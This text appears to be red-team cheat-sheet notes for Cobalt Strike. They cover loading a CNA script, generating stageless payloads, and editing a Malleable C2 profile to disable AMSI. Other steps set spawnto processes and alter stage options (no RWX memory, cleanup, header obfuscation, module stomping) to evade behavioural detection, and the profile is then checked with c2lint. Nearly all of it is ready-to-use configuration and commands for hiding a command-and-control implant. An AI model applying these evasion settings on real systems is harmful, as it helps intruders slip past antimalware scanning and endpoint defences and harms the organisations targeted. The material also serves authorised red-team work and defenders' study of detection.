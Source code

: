 # Load the CNA file: Cobalt Strike > Script Manager > Load > and select the CNA
# Use Payloads > Windows Stageless Generate All Payloads to replace all of your payloads in `C:\Payloads`

# Disable AMSI in Malleable C2 profile
$ vim c2-profiles/normal/webbug.profile

# Right above the `http-get` block, add the following:
post-ex {
        set amsi_disable "true";
				set spawnto_x64 "%windir%\\sysnative\\dllhost.exe";
				#set spawnto_x64 "%windir%\\System32\\dllhost.exe";
        set spawnto_x86 "%windir%\\syswow64\\dllhost.exe";
}

# Minimize the Behavioural Detections by modifying the Malleable c2 Profile
stage {
        set userwx "false"; #Allocate Beacon DLL as RW/RX rather than RWX.
        set cleanup "true"; #Free memory associated with reflective loader after it has been loaded
        set obfuscate "true"; # Load Beacon into memory without its DLL headers
        set module_x64 "xpsservices.dll"; #Load DLL from disk, then replace its memory with Beacon.
}

# Verify the modified C2 profile
attacker@ubuntu ~/cobaltstrike> ./c2lint c2-profiles/normal/webbug.profile

# Creating custom C2 profiles
https://unit42.paloaltonetworks.com/cobalt-strike-malleable-c2-profile/

# Note: `amsi_disable` only applies to `powerpick`, `execute-assembly` and `psinject`.  It **does not** apply to the powershell command.

# Behaviour Detections (change default process for fork & run)
beacon> spawnto x64 %windir%\System32\taskhostw.exe
beacon> spawnto x86 %windir%\syswow64\dllhost.exe
